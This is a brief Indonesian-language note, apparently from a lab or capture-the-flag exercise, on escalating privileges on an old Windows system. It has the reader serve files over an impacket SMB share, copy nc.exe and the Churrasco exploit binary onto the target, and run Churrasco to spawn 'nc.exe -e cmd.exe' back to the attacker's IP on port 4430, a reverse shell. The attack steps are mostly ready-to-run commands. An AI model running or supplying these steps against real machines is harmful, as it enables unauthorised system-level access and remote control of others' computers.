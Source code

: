 # juicy potato on old windows system

download smbserver.py disini https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py

lalu jalankan pada directory yang ingin di share

    sudo python3 smbserver.py share .   

# copy nc from boxe

download nc.exe disini: https://github.com/int0x33/nc.exe/blob/master/nc.exe

    copy \\10.10.14.8\share\nc.exe

# copy exploit 

download exploit binary disini: https://github.com/Re4son/Churrasco/blob/master/churrasco.exe

    copy \\10.10.14.8\share\churrasco.exe

# run exploit

jangan lupa jalankan nc pada port 4430

    .\churrasco.exe -d "C:\\wmpub\arsalan\nc.exe -e cmd.exe 10.10.14.8 4430"


